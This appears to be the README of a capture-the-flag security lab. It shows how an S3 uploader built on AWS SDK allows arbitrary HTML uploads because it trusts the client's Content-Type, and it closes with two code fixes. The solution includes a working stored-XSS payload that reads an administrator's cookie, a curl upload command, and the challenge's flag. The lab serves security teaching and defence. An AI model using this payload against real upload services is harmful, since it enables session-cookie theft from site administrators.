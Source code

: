 # Scenario 1 - Uploading Arbitrary HTML Files Using SDK

[Japanese](./README.md)

## Launch

```sh
cdk deploy Scenario1
# Or
docker compose run --rm cdk bash -c "cdk deploy Scenario1"
```

## Overview

This scenario involves an application that simulates file uploads to S3 using AWS SDK, with an administrator being the target of the challenge. The ultimate goal of the challenge is to retrieve the cookies of the administrator who handles customer inquiries.

**Similar Scenarios**

- [Scenario 2 - Uploading Arbitrary HTML Files Using Signed URLs](../scenario2/README.en.md)
- [Scenario 3 - Uploading Arbitrary HTML Files Using POST Policy](../scenario3/README.en.md)

The administrator's actions are simulated by the "Administrator Operation Mock." The administrator views the application URL sent by the user and saves the results to the `/delivery` directory in S3.

![Architecture of Scenario1](design.png)

## Solution

This section explains how to solve the scenario.

### Application Behavior

The target application operates as follows:

1. The user sends a request to upload a file to the application's endpoint.
2. The application receives the request and uploads the file to S3.
   - During this process, the application generates a UUIDv4 and uses it as the file name for the S3 upload.
3. S3 receives and stores the file.
4. The application returns the file name to the user.
5. The user can access the file using the provided file name.

Notably, no specific checks are performed on the files uploaded to S3.

### Reviewing the Source Code

Having outlined the application behavior, let’s review the source code implementation. Refer to `cdk/lib/scenario1/application/src/app.ts`.

The `/api/upload` endpoint is implemented as follows:

```typescript
server.post('/api/upload', async (request, reply) => {
  const data = await request.file({
    limits: {
      fileSize: 1024 * 1024 * 100,
      files: 1,
    },
  });
  if (!data) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    Body: data.file,
    ContentLength: data.file.bytesRead,
    ContentType: data.mimetype,
  });

  await s3.send(command);
  reply.send(`/upload/${filename}`);
  return reply;
});
```

Here, files are uploaded directly to S3, and as evident from the line `ContentType: data.mimetype,`, the `Content-Type` value from the request is passed directly to S3. This allows users to upload HTML files directly.

### Exploitation Strategy

In this challenge, the objective is to upload a browser-recognizable HTML file, use it to execute arbitrary JavaScript, and extract the administrator's cookies.

One approach involves uploading the following HTML file to execute JavaScript in the administrator’s browser, rendering their cookies as HTML content:

```html
<!-- xss.html -->
<html>
  <body>
    <script>
      document.getElementsByTagName('body')[0].innerHTML = `${document.cookie.split('=')[1]}`;
    </script>
  </body>
</html>
```

Save this file as `xss.html`. Then, execute the following command to upload the arbitrary HTML file:

```sh
TARGET_HOST="....."
curl -X POST -F "file=@xss.html" https://${TARGET_HOST}/api/upload
```

After uploading, enter the resulting URL into the Report URL field to execute arbitrary JavaScript in the administrator’s browser. After execution, view the file saved in `/delivery/{uuid}` in S3 to access the administrator's cookie-rendered HTML file.

## Challenge Response

```
flag{bfe061955a7cf19b12ff0f224e88d65a470e800a}
```

## Fixing the Uploader

Finally, here’s how to fix the uploader.

In `cdk/lib/scenario1/application/src/app.ts`, the `/api/upload` endpoint implementation lacks checks on the `Content-Type` value. Countermeasures include performing exact checks on `Content-Type` values or hardcoding `Content-Type` values for uploads.

**Fix 1: Validate `Content-Type`**

```typescript
server.post('/api/upload', async (request, reply) => {
  const data = await request.file({
    limits: {
      fileSize: 1024 * 1024 * 100,
      files: 1,
    },
  });
  if (!data) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});

  // Fix: Validate MimeType
  const allowedMimeTypes = ['image/png', 'image/jpeg', 'image/gif'];
  if (!allowedMimeTypes.includes(data.mimetype)) {
    return reply.code(400).send({ error: 'Invalid file type' });
  }

  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    Body: data.file,
    ContentLength: data.file.bytesRead,
    ContentType: data.mimetype,
  });

  await s3.send(command);
  reply.send(`/upload/${filename}`);
  return reply;
});
```

**Fix 2: Hardcode `Content-Type`**

```typescript
server.post('/api/upload', async (request, reply) => {
  const data = await request.file({
    limits: {
      fileSize: 1024 * 1024 * 100,
      files: 1,
    },
  });
  if (!data) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    Body: data.file,
    ContentLength: data.file.bytesRead,
    // Fix: Hardcode ContentType
    ContentType: 'application/octet-stream',
    ContentDisposition: `attachment; filename="${filename}.png"`,
  });
  await s3.send(command);
  reply.send(`/upload/${filename}`);
  return reply;
});
```
